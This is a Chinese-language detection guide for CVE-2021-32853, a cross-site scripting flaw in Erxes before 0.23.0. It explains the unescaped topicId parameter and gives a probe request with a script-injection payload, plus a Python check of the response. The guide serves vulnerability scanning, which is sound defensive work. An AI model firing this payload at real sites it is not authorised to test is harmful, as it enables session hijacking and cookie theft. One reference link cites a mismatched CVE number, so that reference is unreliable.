

# Erxes <0.23.0 XSS漏洞（CVE-2021-32853）检测说明

## 漏洞简介

Erxes 0.23.0 之前版本存在跨站脚本（XSS）漏洞，攻击者可通过topicId参数注入恶意脚本，导致在受害者浏览器中执行任意JavaScript代码。

## 影响范围

- 产品：Erxes
- 影响版本：< 0.23.0
- CVE编号：CVE-2021-32853
- 危害等级：Critical

## 漏洞原理

/widgets/knowledgebase接口未对topicId参数进行转义，导致其值被直接插入到script标签内，攻击者可注入闭合标签和恶意脚本，触发XSS。

## 利用方式与攻击流程

1. 攻击者构造带有XSS payload的GET请求，topicId参数注入`</script><script>alert(document.domain)</script>`。
2. 服务器端未对参数进行安全处理，直接插入到页面脚本中。
3. 受害者访问该页面时，恶意脚本在其浏览器中执行。
4. 攻击者可窃取cookie、劫持会话等。

## 探测原理与流程

### 探测请求的构造

```http
GET /widgets/knowledgebase?topicId=%3C%2Fscript%3E%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E HTTP/1.1
Host: target.com
```

- topicId参数注入了闭合标签和alert脚本。

### 预期响应与交互

- 响应体需包含`topic_id: "</script><script>alert(document.domain)</script>"`和`window.erxesEnv`。
- 响应头包含`text/html`。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 200 and 'topic_id: "</script><script>alert(document.domain)</script>"' in response.text and 'window.erxesEnv' in response.text and 'text/html' in response.headers.get('content-type', ''):
        return True
    return False
```

### 检测流程Mermaid图



## 参考链接

- [GitHub Security Lab Advisory](https://securitylab.github.com/advisories/GHSL-2021-103-erxes/)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2021-3285)
- [erxes源码分析1](https://github.com/erxes/erxes/blob/f131b49add72032650d483f044d00658908aaf4a/widgets/server/views/widget.ejs#L14)
- [erxes源码分析2](https://github.com/erxes/erxes/blob/f131b49add72032650d483f044d00658908aaf4a/widgets/server/index.ts#L54) 